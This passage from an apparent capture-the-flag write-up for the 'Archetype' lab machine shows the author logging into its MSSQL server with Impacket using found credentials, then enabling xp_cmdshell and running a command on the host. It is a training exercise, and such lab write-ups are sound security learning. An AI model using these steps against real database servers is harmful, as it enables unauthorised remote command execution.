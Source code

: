It looks like there is a password and username here!  We recall from Passage that we have Impacket's `mssqlclient.py` script, and we use it here:
```bash
$ git clone https://github.com/SecureAuthCorp/impacket;

$ python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

Now we are logged in as user `ARCHETYPE\sql_svc`!

Let's have a look at the help commands:
```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

This is curious; particularly the `xp_cmdshell` ones...  We need a way to change this SQL shell into an RCE.  Searching `xp_cmdshell`, I found [this](https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/) on the web to help us do this!  Running
```sql
-- this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

Here is the output:
```
SQL> sp_configure 'show advanced options', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> sp_configure 'xp_cmdshell', '1'
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output

--------------------------------------------------------------------------------

archetype\sql_svc

NULL

SQL>
```